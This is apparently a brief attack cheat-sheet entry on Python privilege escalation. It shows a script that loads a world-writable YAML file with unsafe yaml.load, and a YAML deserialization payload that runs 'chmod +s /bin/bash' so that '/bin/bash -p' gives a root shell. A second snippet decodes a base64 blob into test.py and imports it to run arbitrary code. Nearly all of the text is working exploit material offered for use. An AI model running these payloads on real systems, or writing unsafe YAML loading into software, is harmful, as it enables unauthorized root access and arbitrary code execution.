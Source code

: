 # python
For a python script, running a `yaml` module, like below:

```text-plain
#!/usr/bin/python
import yaml
class Execute():
        def __init__(self,file_name ="/tmp/file.yml"):
                self.file_name = file_name
                self.read_file = open(file_name ,"r")
        def run(self):
                return self.read_file.read()
data  = yaml.load(Execute().run())
```

use payload `!!python/object/apply:os.system ["chmod +s /bin/bash"]` in `/tmp/file.yml` to set suid on bash and get root with `/bin/bash -p`

```text-x-python
f = open("test.py",'w')
f.write(__import__("base64").b64decode("<BASE64_FILE>").decode('utf-8'))
f.close()
p=__import__("os").getcwd()
__import__("sys").path.append(p)
__import__("test").a()
```